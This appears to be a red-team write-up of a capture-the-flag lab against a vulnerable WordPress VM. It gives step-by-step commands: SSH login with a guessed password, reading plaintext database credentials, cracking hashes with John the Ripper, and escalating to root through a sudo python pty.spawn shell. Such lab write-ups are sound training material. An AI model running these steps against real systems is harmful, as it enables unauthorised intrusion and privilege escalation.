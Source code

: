 # **Red Team: Summary of Operations**

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

nmap -sV 192.168.1.110

![1](/Images/1/1.png)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

### TARGET 1

Vulnerability | Description | Impact
---|---|---
**CWE-200** | Exposure of sensitive Information to an unauthorized actor | Allowing sensitive information to be compromised so easily can result in a breach that can have significant affects on your business
**CWE-521** | Weak Password Requirements | Not enforcing a password policy allows users to choose passwords that they can easily remember which are not typically secure.
**CWE-284** | The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. | A user is able to execute elevated commands when they were not preauthorized to do so
**CWE-98** | An improper control of filename for include or require statement in PHP allows a LFI allowing remote attackers to execute arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**flag1:**  `flag1{b9bbcb33e11b80be759c4e844862482d}`

- **CWE-200** Exposure of sensitive Information to an unauthorized actor
    
    1. On google chrome input the `Url: 192.168.1.110/service.html`
    2. Right click / view page source code / click on 3 dot menu
    3. Search: flag1

     **Flag1**

    ![2](/Images/1/2.png)

---

**flag2:** `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`

- **CWE-521:** Weak Password Requirements

    Access to the system was obtained through this weakness. The product does not require users to use strong passwords. This vulnerability makes it easier for attackers to compromise user accounts. User Michael utilizes his username as a password. Hydra can easily brute-force the password. Nevertheless, guessing the password was the efficient choice.
    
    Exploit:

    ```
        ssh michael@192.168.1.110
        Password: michael
        Cd ../../
        Find -iname “*flag*” 2>/dev/null
        Cat /var/www/fllag2.txt
    ```

    **Flag2**

    ![3](/Images/1/3.png)

---

**flag3:**  `flag3{afc01ab56b50591e7dccf93122770cd2}`

- **CWE-284** Server does not properly restrict access to a resource

    Privilege escalation is preceded by this vulnerability. The root password to access the SQL database is reachable in plain text on the file wp-config.php
    
    Exploit:
    ```
    Nano wp-config.php
    Look down mysql database password
    mysql -u root -p
    Password: R@v3nSecurity
    ```

    ![4](/Images/1/4.png)

    ```
    mysql -u root -p
    mysql> show databases;
    mysql> use wordpress;
    mysql> show tables;
    mysql> select * from wp_posts;
    ```

    **Flag3**

    ![11](/Images/1/11.png)  

    >#### note: Flags 3 and 4 can be found in different ways. At the end of this report is a summary of other methods to access flag3 and flag4.

---

**flag4:**  `flag4{715dea6c055b9fe3337544932f2941ce}`

- **CWE-284** Improper Access Control

    Privilege on the system is obtained in this step after cracking the hashed password of a privileged user found in the SQL database. This allows to execute a Python Script that leads to a root access to the system.

    **CRACKING THE HASH PASSWORD**

    Exploit:

    1. In the sql database run: 

        ```
            mysql> show databases;
            mysql> use wordpress;
            mysql> show tables;
            mysql> SELECT* FROM wp_posts;
        ```

        ![5](/Images/1/5.png)

    2. Create a file with the hashes and usernames in john the ripper format

        ![6](/Images/1/6.png)

        ```
        John hashes.txt -wordlist=’usr.share/wordlist/rockyou.txt’
        ```

        ![7](/Images/1/7.png)

    **PRIVILEGE ESCALATION USING A PYTHON SCRIPT**

    The user Steven has python root access. This led to a root privilege escalation.

    Exploit:

    ```   
    su steven
    Password: pink84
    sudo -l  
    ```
    
    ![8](/Images/1/8.png)

    Steven has the privilege to run python language as a root user
    
        sudo python -c 'import pty;pty.spawn("/bin/bash")'
 
    ![9](/Images/1/9.png)
    
        cat /root/flag4.txt
    
    **Flag4**

    ![10](/Images/1/10.png)

***

# Alternative methods to access flag 3 and 4

## Binary File: **Flag 3**

1. Needs to be Root
2. In the directory:  /var/lib/mysql 

    ```
    grep -r flag3 *
    nano lib_logfile0
    ctrl w flag3
    ```

**Flag3**

![12](/Images/1/12.png)

## SQL database: **Flag 3 and 4**

```
mysql -u root -p
mysql> show databases;
mysql> use wordpress;
mysql> show tables;
mysql> select * from wp_posts;
```

  **Flag3 and Flag4**
 
![11](/Images/1/11.png)



> Others Exploits:
CVE-2014-6271 Shellshock vulnerability. It is possible to gain shell access through Remote code execution.